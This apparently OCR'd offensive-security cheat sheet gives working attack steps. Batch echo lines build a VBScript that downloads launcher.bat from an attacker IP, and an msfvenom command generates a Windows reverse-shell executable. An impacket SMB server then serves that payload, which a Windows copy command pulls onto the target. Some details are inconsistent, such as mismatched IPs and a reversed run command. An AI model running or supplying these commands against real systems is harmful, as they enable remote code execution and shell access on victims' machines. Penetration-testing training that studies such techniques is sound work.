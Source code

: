 echo Set args = Wscript.Arguments  >> webdl.vbs
timeout 1
echo Url = "http://172.16.40.5/launcher.bat" >> webdl.vbs
timeout 1
echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
timeout 1
echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
timeout 1
echo xHttp.Open "GET", Url, False  >> webdl.vbs
timeout 1
echo xHttp.Send  >> webdl.vbs
timeout 1
echo with bStrm      >> webdl.vbs
timeout 1
echo 	.type = 1 '      >> webdl.vbs
timeout 1
echo 	.open      >> webdl.vbs
timeout 1
echo 	.write xHttp.responseBody      >> webdl.vbs
timeout 1
echo 	.savetofile "C:\temp\launcher.bat", 2 '  >> webdl.vbs
timeout 1
echo end with >> webdl.vbs
timeout 1
echo

# The file above can be run using the following syntax:
C:\temp\launcher.bat webdl.vbs

## Transferring a payload file from attacker to target via SMB 

# On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

# Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file. On Kali, in the same directory as reverse.exe payload, type command below:
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

# On Windows (update the IP address with your Kali IP):
copy \\10.13.1.99\kali\reverse.exe C:\Users\reverse.exe
